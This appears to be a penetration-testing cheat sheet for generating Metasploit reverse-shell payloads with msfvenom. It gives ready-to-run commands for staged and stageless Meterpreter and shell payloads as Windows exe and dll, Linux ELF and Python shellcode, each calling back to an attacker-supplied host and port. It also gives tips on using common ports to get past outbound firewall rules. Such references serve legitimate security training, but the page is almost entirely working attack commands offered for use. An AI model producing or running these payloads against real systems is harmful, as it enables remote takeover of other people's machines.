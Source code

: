 ```yaml
---
title: "Metasploit Shellcode"
date: 2024-6-26
tags: ["metasploit", "shellcode", "revshell", "msfconsole", "msfvenom"]
---
```


### Generate Shellcode

<small>*Note: stageless payload can catch with nc directly*</small>

#### Windows x64

{{< tab set1 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set1 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set1 tab3 >}}Staged dll{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

{{< /tabcontent >}}

#### Windows x86

{{< tab set2 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set2 tab2 >}}Stageless exe{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> EXITFUNC=thread > rev.exe
```

{{< /tabcontent >}}

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### Linux amd64

{{< tab set3 tab1 active >}}Stageless elf{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > rev.elf
```

{{< /tabcontent >}}

#### Others

{{< tab set4 tab1 active >}}Staged python{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>
```

{{< /tabcontent >}}
